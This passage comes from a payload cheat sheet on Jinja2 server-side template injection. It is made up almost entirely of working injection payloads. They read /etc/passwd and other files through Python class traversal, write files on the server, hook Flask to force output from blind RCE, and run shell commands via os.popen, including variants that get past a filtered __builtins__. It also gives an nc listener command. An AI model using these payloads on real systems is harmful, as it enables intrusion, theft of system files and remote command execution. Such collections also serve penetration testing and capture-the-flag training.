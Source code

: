 ### Jinja2 - Read Remote File

```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

### Jinja2 - Write Into Remote File

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Jinja2 - Remote Command Execution

Listen for connection

```bash
nc -lnvp 8000
```

#### Jinja2 - Forcing Output On Blind RCE

You can import Flask functions to return an output from the vulnerable page.

```py
{{
x.__init__.__builtins__.exec("from flask import current_app, after_this_request
@after_this_request
def hook(*args, **kwargs):
    from flask import make_response
    r = make_response('Powned')
    return r
")
}}
```

#### Exploit The SSTI By Calling os.popen().read()

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

But when `__builtins__` is filtered, the following payloads are context-free, and do not require anything, except being in a jinja2 Template object:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

We can use these shorter payloads:
